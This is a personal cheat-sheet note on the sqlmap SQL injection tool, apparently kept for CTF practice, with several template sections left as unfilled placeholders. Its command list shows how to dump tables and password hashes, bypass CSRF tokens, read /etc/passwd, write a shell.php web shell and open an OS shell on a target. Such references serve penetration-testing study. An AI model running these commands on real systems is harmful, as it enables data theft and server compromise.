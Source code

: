 # sqlmap

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

### Category 1

Run `SQLMap` without asking for user input 
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

`SQLMap` with POST request
```bash
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

POST request specifying an injection point with an asterisk
```bash
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

Passing an HTTP request file to `SQLMap
```bash
sqlmap -r req.txt
```

Specifying a cookie header 
```bash
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

Specifying a PUT request
```bash
sqlmap -u www.target.com --data='id=1' --method PUT
```

Store traffic to an output file
```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

Specify verbosity level 
```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

Specifying a prefix or suffix 
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Specifying the level and risk
```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

Basic DB enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

Table enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

Table/row enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

Conditional enumeration 
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

Database schema enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --schema
```

Searching for data 
```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

Password enumeration and cracking 
```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

Anti-CSRF token bypass 
```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

List all tamper scripts 
```bash
sqlmap --list-tampers
```

Check for DBA privileges
```bash
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

Reading a local file
```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

Writing a file 
```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

Spawning an OS shell
```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```
^sqlmap-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #sqlmap
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#sqlmap #tool